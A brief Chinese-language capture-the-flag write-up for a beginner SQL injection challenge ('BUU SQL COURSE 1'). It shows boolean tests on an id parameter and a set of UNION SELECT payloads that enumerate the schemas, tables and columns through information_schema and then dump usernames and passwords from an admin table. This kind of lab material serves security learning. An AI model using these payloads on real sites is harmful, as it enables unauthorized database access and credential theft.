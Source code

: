# BUU SQL COURSE 1
初级sql注入。。。\
可以玩一个工具burp suite哈哈哈\
![Alt text](image-3.png)
在这个页面尝试id=1 and 1=1和id=1 and 1=2回显\
发现存在sql注入点...

接下来暴库, 暴表和暴字段...
```
暴库：（information_schema,ctftraining,mysql,performance_schema,test,news）
?id=-1 UNION SELECT 1,group_concat(schema_name) from information_schema.schemata

暴表：（admin,contents）
?id=-1 UNION SELECT 1,group_concat(table_name) from information_schema.tables where table_schema="news"

暴字段：（id,username,password）
?id=-1 UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name="admin"

暴密码：
?id=-1 UNION SELECT 1,concat(username,0x3a,password) from admin
```
![Alt text](image-4.png)